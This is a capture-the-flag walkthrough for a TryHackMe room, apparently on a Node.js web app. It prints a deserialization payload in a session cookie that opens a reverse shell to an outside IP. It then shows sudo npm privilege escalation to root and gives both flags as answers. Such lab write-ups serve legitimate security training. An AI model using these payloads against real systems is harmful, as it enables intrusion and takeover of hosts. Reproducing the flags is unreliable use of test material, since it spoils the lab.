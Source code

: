 # Retro Walkthrough
### Link
- https://tryhackme.com/room/jason
---
### Recon
```
nmap -sC -sC -p- [IP]
```
**Namp scan result**
```
```
Let's check  the website. We gather interesting information from the homepage : Built with NodeJs

Now, chexk the source page
```
 <script>
    document.getElementById("signup").addEventListener("click", function() {
	var date = new Date();
    	date.setTime(date.getTime()+(-1*24*60*60*1000));
    	var expires = "; expires="+date.toGMTString();
    	document.cookie = "session=foobar"+expires+"; path=/";
    	const Http = new XMLHttpRequest();
        console.log(location);
        const url=window.location.href+"?email="+document.getElementById("fname").value;
        Http.open("POST", url);
        Http.send();
	setTimeout(function() {
		window.location.reload();
	}, 500);
    }); 
    </script>
```
Great finding :  const url=window.location.href+"?email="+document.getElementById("fname").value;

Now, Let's check what happens if I put an email.

Try this email: test@test.com and if we check the session token : eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==

*Reverse*
```
echo eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ== | base64 -d
{"email":"test@test.com"}
```

We have an opportunity to manipulate the session cookie ^^
---
### Exploit
To be able to exploit a potential NodeJs, let's try this [exploit](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

- First: Create your payload
```
echo -n '{"email": "_$$ND_FUNC$$_function() { var net = require(\"net\"), cp = require(\"child_process\"), sh = cp.spawn(\"/bin/sh\", []);var client = new net.Socket();client.connect(4646, \"10.6.96.167\", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;}()"}' | base64

eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHZhciBuZXQgPSByZXF1aXJlKFwibmV0XCIpLCBjcCA9IHJlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLCBzaCA9IGNwLnNwYXduKFwiL2Jpbi9zaFwiLCBbXSk7dmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7Y2xpZW50LmNvbm5lY3QoNDY0NiwgXCIxMC42Ljk2LjE2N1wiLCBmdW5jdGlvbigpe2NsaWVudC5waXBlKHNoLnN0ZGluKTtzaC5zdGRvdXQucGlwZShjbGllbnQpO3NoLnN0ZGVyci5waXBlKGNsaWVudCk7fSk7cmV0dXJuIC9hLzt9KCkifQ==
```
- Second: Start a listener
- Third: Change the current session token with the new one 
- Fourth: Result
```
Connection from 10.10.154.254:41110
whoami
dylan
ls -l
total 24
-r--r--r--  1 root root 3561 Sep  2 16:10 index.html
drwxr-xr-x 23 root root 4096 Jun 10  2021 node_modules
-rw-r--r--  1 root root  385 Jun 10  2021 package.json
-rw-r--r--  1 root root 6332 Jun 10  2021 package-lock.json
-rw-r--r--  1 root root 1454 Sep  2 16:10 server.js
pwd
/opt/webapp
ls -al
total 32
drwxr-xr-x  3 root root 4096 Sep  2 16:10 .
drwxr-xr-x  3 root root 4096 Jun 10  2021 ..
-r--r--r--  1 root root 3561 Sep  2 16:10 index.html
drwxr-xr-x 23 root root 4096 Jun 10  2021 node_modules
-rw-r--r--  1 root root  385 Jun 10  2021 package.json
-rw-r--r--  1 root root 6332 Jun 10  2021 package-lock.json
-rw-r--r--  1 root root 1454 Sep  2 16:10 server.js
cd home
/bin/sh: 5: cd: can't cd to home
cd /home
ls -l
total 4
drwxr-xr-x 5 dylan dylan 4096 Jun 10  2021 dylan
cd dylan
ls -la
total 40
drwxr-xr-x 5 dylan dylan 4096 Jun 10  2021 .
drwxr-xr-x 3 root  root  4096 Jun 10  2021 ..
lrwxrwxrwx 1 dylan dylan    9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 dylan dylan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 dylan dylan 3771 Feb 25  2020 .bashrc
drwx------ 2 dylan dylan 4096 Jun 10  2021 .cache
drwx------ 3 dylan dylan 4096 Jun 10  2021 .config
drwxrwxr-x 3 dylan dylan 4096 Jun 10  2021 .local
-rw-r--r-- 1 dylan dylan  807 Feb 25  2020 .profile
-rw-rw-r-- 1 dylan dylan   66 Jun 10  2021 .selected_editor
-rw-r--r-- 1 dylan dylan    0 Jun 10  2021 .sudo_as_admin_successful
-rw-r--r-- 1 dylan dylan   33 Jun 10  2021 user.txt
cat user.txt
0ba48780dee9f5677a4461f588af217c
```
**Question**
#### user.txt
**Answer** 
#### 0ba48780dee9f5677a4461f588af217c
---
### Privilege escalation
```
sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```
Ok, we can run /usr/bin/npm without password.Let's check [gtfobins](https://gtfobins.github.io/gtfobins/npm/)
```
User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.L9fV82nx7K
> /bin/sh

whoami
root
pwd
/tmp/tmp.L9fV82nx7K
cd /root/
ls -l
total 4
-rw-r--r-- 1 root root 33 Jun 10  2021 root.txt
cat root.txt
2cd5a9fd3a0024bfa98d01d69241760e
```
**Question**
#### root.txt
**Answer** 
#### 2cd5a9fd3a0024bfa98d01d69241760e
